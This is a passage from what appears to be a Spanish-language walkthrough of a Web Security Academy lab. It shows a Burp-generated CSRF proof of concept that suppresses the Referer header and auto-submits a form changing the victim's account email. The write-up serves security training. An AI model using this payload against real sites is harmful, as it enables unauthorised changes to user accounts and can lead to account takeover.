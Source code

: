 ![](img29.png)

Luego de ello, agregamos la etiqueta meta para que no considere el Referer de nuestro **exploit server**

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <meta name="referrer" content="never">
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac881f6f1e3b5e28c0c35ffe008200b7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="a&#64;a&#46;a" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

